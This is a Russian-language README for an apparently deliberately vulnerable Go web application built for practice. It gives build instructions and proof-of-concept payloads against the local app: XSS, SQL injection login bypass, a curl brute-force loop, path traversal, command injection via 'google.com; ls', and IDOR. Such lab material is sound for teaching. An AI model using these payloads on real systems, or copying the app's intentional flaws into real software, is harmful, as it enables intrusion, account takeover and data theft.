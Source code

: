 ## 📃 Инструкция по сборке и запуску приложения

### Требования

Для успешной сборки этого приложения вам потребуется:

- Go (версия 1.18 и выше)
- gcc (установленный и доступный в системе, необходим для sqlite3)

### Сборка и запуск

Для сборки приложения выполните следующие команды:

```bash
git clone https://github.com/Stepashka20/vuln-app
cd vuln-app
go build main.go -o vuln-app
```

Перед запуском скопируйте и заполните `.env`:
```bash
cp .env.example .env
```

Для запуска приложения выполните следующую команду:

```bash
./vuln-app
```

После этого приложение будет доступно по адресу http://localhost:8080

## 👨🏻‍💻 Proof of Concept

### 1. XSS
1. Зарегестрируйтесь с ником `<script>alert(1)</script>`:
2. После этого в профиле появляется алерт с цифрой 1.

### 2. SQLI
1. Зарегестрируйте юзера с ником 'admin': 
```bash
curl 'http://localhost:8080/register' --data-raw 'username=admin&password=supersecurepassword'
```
2. Допустим мы знаем что админ есть в системе. Тогда мы можем войти через его аккаунт:
```bash
1. Логин: a' UNION SELECT 'admin','$2y$04$QMuPN3FQ4EtmNAx.mPGY5e3C9UIibGaX/U.uvknhOLadNwtEA.iH6' --
2. Пароль: 1234
```
3. Вход от админа успешен

### 3. Brute force
1. Запустите испровизированный брут, который будет перебирать пароль: 
```bash
seq 50 | xargs -P50 -I{} curl -s -o /dev/null -w "%{http_code}\n" 'http://localhost:8080/login' --data-raw 'username=admin&password={}'
```
2. Как видно, сервер не ограничивает нас в количестве запросов, поэтому мы можем перебрать пароль бесконечно

### 4. Path Traversal
1. В профиле пользователя загрузите любой файл в секции загрузки "любимого файла"
2. В профиле появится кнопка для скачивания файла вида: 
```bash
http://localhost:8080/files?name=e5fedb3b-9717-44b6-a68b-a2bb042f4409.png
```
3. После этого мы можем скачать любой файл с сервера, заменив имя файла в ссылке:
```bash
curl http://localhost:8080/files?name=../main.go
```

### 5. OS command injection
1. Перейдите в утилиту Ping:
```bash
http://localhost:8080/ping
```
2. введите в поле для ввода для сайта:
```bash
google.com; ls
```
3. После этого вы увидите список файлов в директории проекта

### 6. IDOR
1. Зарегестрируйте двух юзеров:
```bash
curl 'http://localhost:8080/register' --data-raw 'username=user1&password=supersecurepassword'
curl 'http://localhost:8080/register' --data-raw 'username=user2&password=supersecurepassword'
```
2. Войдите в систему под первым юзером:
```bash
curl 'http://localhost:8080/login' --data-raw 'username=user1&password=supersecurepassword'
```
3. В профиле будет кнопка для удаления своего аккаунта, которая делает запрос на:
```bash
http://localhost:8080/delete?user=user1
```
4. После этого мы можем удалить любого юзера, заменив имя в запросе:
```bash
http://localhost:8080/delete?user=user2
```